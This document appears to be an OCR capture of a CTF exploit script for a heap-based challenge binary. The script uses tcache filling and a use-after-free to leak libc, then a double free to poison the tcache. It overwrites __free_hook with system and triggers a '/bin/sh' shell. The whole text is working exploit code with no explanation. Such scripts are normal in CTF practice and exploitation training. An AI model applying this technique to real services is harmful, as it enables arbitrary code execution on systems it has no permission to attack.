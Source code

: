 ```bash
show_idx = 3

def dbg():
   gdb.attach(proc.pidof(p)[0])
   pause()


def choice(cho):
    sla('> ',cho)

def add(idx,size,con):
    choice(add_idx)
    sla('Index?\n',idx)
    sla('Size?\n',size)
    p.sendlineafter('content: ',con)

def delete(idx):
    choice(free_idx)
    sla('Index?\n',idx)

def show(idx):
    choice(show_idx)
    sla('Index?\n',idx)

add(0,0x100,'aaa') #F
add(1,0x100,'bbb') #C

for i in range(2,9):
    add(i,0x100,'eee')

for i in range(2,9):
    delete(i)

delete(1)
show(1)
libc_base=l64()-0x1ecbe0
li('libc_base = '+hex(libc_base))
free_hook=libc_base+0x1eee48
system=libc_base+0x52290

delete(0)

add(2,0x100,'tcache')
delete(1) #double free

add(3,0x70,'111')
add(4,0x80,'222')
add(5,0x90,p64(free_hook))

add(6,0x100,'/bin/sh\x00')
add(7,0x100,p64(system))

delete(6)


itr()
```
